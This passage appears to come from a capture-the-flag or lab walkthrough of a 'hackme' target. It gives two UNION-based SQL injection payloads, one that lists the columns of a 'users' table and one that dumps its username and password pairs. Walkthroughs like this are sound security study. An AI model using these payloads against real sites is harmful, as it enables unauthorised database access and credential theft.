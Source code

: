 ![](/assets/images/hackme/screenshot-13.png)

Retrieving the columns from the table **users**.

```bash
' and 1=2 union select column_name,2,3 from information_schema.columns where table_schema=database() and table_name='users' #
```

![](/assets/images/hackme/screenshot-14.png)

Retrieving the records from the table **users**.

```bash
' and 1=2 union select concat_ws(':',user,pasword),2,3 from users #
```
